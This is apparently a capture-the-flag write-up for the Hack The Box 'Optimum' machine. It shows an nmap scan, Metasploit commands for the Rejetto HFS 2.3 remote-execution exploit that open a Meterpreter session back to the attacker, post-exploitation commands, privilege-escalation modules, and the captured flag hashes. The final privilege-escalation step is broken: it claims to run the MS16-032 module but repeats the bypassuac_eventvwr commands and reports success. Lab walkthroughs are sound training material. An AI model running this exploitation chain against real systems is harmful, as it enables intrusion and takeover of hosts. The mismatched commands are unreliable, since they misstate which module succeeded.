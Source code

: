 ## IP

> 10.10.10.8

## nmap scan

```
nmap -T4 -A 10.10.10.8 -Pn
```

```a
Nmap scan report for 10.10.10.8
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   150.11 ms 10.10.16.1
2   150.12 ms 10.10.10.8
```

## System Info 
> Microsoft Windows 2012

## Open Ports

>80/tcp open  http    HttpFileServer httpd 2.3

HTTP

## HTTP

http://10.10.10.8/

We see that the port is running HttpFileServer (HFS 2.3), after searching online for exploits I could find this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/) 

### Metasploit

Lets try to use the Rejetto HFS Exec attack

```
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.10.10.8
set lhost tun0
run
```

We have access to the machine!

## Post Exploitation

```getuid```

> Server username: OPTIMUM\kostas

We are not root

```sysinfo```

> Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

```getsystem```

> [-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)

Not good

### Getting user.txt

```
cat user.txt.txt
```

> d0c39409d7b994a9a1389ebf38ef5f73

## Becoming System

Lets try to ask the suggester for payloads

```
background
search suggester
use 0
set session 1 [or your session]
```

> [*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 34 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed

We get some suggestions 

Lets try "exploit/windows/local/bypassuac_eventvwr"

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set lhost tun0
run
```

Did not work

Lets try "exploit/windows/local/ms16_032_secondary_logon_handle_privesc"

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set lhost tun0
run
```

it worked! We are root.

### Finding root.txt

> 51ed1b36553c8461f4552c2e92b3eeed